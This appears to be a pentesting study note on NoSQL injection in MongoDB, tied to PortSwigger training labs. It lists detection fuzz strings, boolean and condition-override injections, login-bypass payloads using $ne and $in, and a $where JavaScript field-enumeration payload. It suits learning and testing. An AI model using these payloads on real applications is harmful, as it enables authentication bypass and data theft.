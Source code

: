 # NoSQL Injections

## Detecting NoSQL Injections in MongoDB
Test the following strings by submitting them where you think a MongoDB statement is used on the backend:
- ```'"\`{```
- ```;$Foo}```
- ```$Foo \xYZ```
These strings try to break the MongoDB syntax and should result in a different response then what is expected.

### If Submitting Fuzz Strings as JSON Use The Following Instead
```'\"\`{\r;$Foo}\n$Foo \\xYZ\u0000```

### Confirming Conditional Behavior
After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements:
`' && 0 && 'x` and `' && 1 && 'x`

### Overriding Existing Conditions
Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`

 You could also add a null character after the target value `'%00`. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored

## NoSQL Operator Injection
### Availalble Operators
- `$where`
- `$ne` (not equal)
- `$eq` (equal)
- `$in` (followed by an array)
- `$regex`
- `$lt` (less than)
- `$gt` (greater than)

### Example Payloads
#### JSON Format
```json
{
	"username": { "$ne": "invalid" }
}
```
```json
{
	"username": { "$in" : ["admin", "administrator", "superuser", "superadmin"] }
	"password": { "$ne" : "invalid" }
}
```
#### Form URL Encoded Format
`username[$ne]=invalidusername&password[$ne]=invalidpassword`

### Injecting Javascript With "$where"
If NoSQL injection is possible then we might be able to inject JS code using the "$where" property
Ex: To enumerate the properties of `Object` we can use the following. [Review the solution of this portswigger lab](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)
`"$where": "Object.keys(this)[1].match('^.{}.*')"`

## Extra Resources
- [Portswigger NoSQL Injection](https://portswigger.net/web-security/nosql-injection)
- [Intigriti Guide to NoSQL Injection](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-nosql-injection-nosqli-vulnerabilities)
